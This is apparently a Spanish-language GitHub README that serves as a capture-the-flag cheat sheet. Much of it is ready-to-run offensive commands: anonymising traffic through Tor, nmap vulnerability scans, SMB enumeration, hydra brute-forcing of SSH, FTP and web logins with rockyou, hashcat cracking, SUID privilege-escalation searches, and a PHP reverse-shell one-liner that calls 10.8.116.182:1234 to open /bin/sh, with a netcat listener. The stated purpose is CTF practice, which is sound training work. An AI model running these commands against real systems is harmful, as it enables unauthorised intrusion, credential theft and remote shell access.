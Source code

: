 # Herramientas-CTF
Herramientas útiles para afrontar CTF.

## Ocultar IP
### KALITORIFY
    Instalación: https://www.youtube.com/watch?v=bC6pL6mEnuo

Iniciar kalitorify sobre proxy tor:
```
sudo kalitorify -t
```

Verificar IP pública a la cual estamos conectados:
```
wget -qO- http://ipecho.net/plain | xargs echo
curl ip.me
curl ifconfig.me
curl https://distguard.com/ip.php
```

## Reconocimiento:
### NETDISCOVER
Ejemplos:
```
netdiscover -i <INTERFACE> //Para redes comunes en una interface de red específica (Ejemplo: eth0).
netdiscover -r 192.168.1.0/24 //Para escanear un rango dentro de una red específica (CIDR).
```
### NMAP
Análisis y descubrimiento de servicios y puertos.

Ejemplos:

Detección de servicios standard
```
nmap -sV 192.168.1.110
```
Detección de servicios con vulnerabilidades
```
nmap -sV -vv --script vuln 192.168.1.110
```
Enumeración de directorios SAMBA
```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 192.168.1.110
```
### Port Knocking
```
for PORT in 1111 2222 3333 4444; do nc -vz 192.168.1.110 $PORT; done;
```
### ENUM4LINUX
Análisis y descubrimiento de recursos compartidos vía SMB
```
enum4linux -U 192.168.1.110     Usuarios.
enum4linux -S 192.168.1.110     Listas compartidas.
enum4linux -P 192.168.1.110     Política de contraseñas.
```
### Enumeración de subdominios
Web
```
https://www.nmmapper.com/sys/tools/subdomainfinder/
```
Herramientas incluidas en Kali/ParrotOS
```
sublist3r -d dominio.com
```
### WHOIS
Web
```
https://who.is/whois
```
Herramientas incluidas en Kali/ParrotOS
```
whois dominio.com
```
### GOBUSTER
Detección de directorios y archivos con la ayuda de un diccionario
```
gobuster dir -u http://192.168.1.110/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,old,bak,bin
```
### SMBCLIENT
Reconocimiento de recursos compartidos SMB
```
smbclient //192.168.1.110/shared_folder -U user_name (Conexión con credenciales)
smbclient //192.168.1.110/anonymous (Conexión a directorios anónimos)
```
### HYDRA
http-post-form
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 192.168.1.110 http-post-form "/login/:username=^USER^&password=^PASS^:F=incorrect" -V
```
ssh
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 192.168.1.110 -t 4 ssh
```
ftp
```
hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.70.92 ftp
```
### HASHCAT
Lista de modos (algoritmos) a escanear: https://hashcat.net/wiki/doku.php?id=example_hashes
```
# 0 para MD5
hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt
```
### WORDLISTCTL
```
git clone https://github.com/BlackArch/wordlistctl
python3 wordlistctl.py fetch male
     Download wordlists ...
gunzip file.gz
```

### MENTALIST
```
git clone https://github.com/sc0tfree/mentalist
sudo apt-get install python3-tk python3-pip
python3 setup.py install
mentalist
```
### Inyección SQL:
Codificación de URL para crear cargas útiles (payloads)
```
https://www.w3schools.com/tags/ref_urlencode.ASP
```

### PYTHON3:
Ejemplos:

Inicar WebServer
```
python3 -m http.server 12345
```
### REVERSE SHELL:
Descargar y editar (IP y Puerto)
```
https://github.com/josueitamar/php-reverse-shell/blob/master/php-reverse-shell.php
php -r ‘$sock=fsockopen(“10.8.116.182”,1234);exec(“/bin/sh -i <&3 >&3 2>&3”);’ // Para ejecución en textbox php
```
Configurar puerto escucha en netcat
```
nc -lnvp 4444
```
Estabilizar una terminal interactiva

-Python
```
export TERM=xterm
python3 -c "import pty;pty.spawn('/bin/bash')"
```
### Escalar Privilegios
https://d00mfist.gitbooks.io/ctf/content/privilege_escalation_-_linux.html
### LINENUM
Útil para escalar privilegios cuando ya se tiene un usuario comprometido satisfactoriamente
- Descargar
  - https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
- Montar en maquina destino (atacada)
  - Montar un webserver y wget, o copiar con editor de texto
- Ceder permisos de ejecución
  - chmod +x LinEnum.sh
- Ejecutar y guarda resultadoa para su respectivo análisis
  - ./LinEnum > Result.txt


---
Listar comandos permitidos para el usuario activo
```
sudo -l
```
Repositorio de binarios Unix utiles para escalar privilegios

https://gtfobins.github.io/

Buscar archivos que son propiedad de root y tienen al menos el permiso SUID: 
```
find / -perm -u=s -type f 2>/dev/null
```
Busqueda de archivos con extensión específica
```
find / -type f -name "*.sql"
```

## Otras Herramientas
### Analizador de Hashes
https://www.tunnelsup.com/hash-analyzer/

https://www.onlinehashcrack.com/hash-identification.php

https://md5hashing.net/hash_type_checker

https://hashes.com/en/tools/hash_identifier

### Hash Cracker
https://crackstation.net/

### CyberChef
https://gchq.github.io/CyberChef/
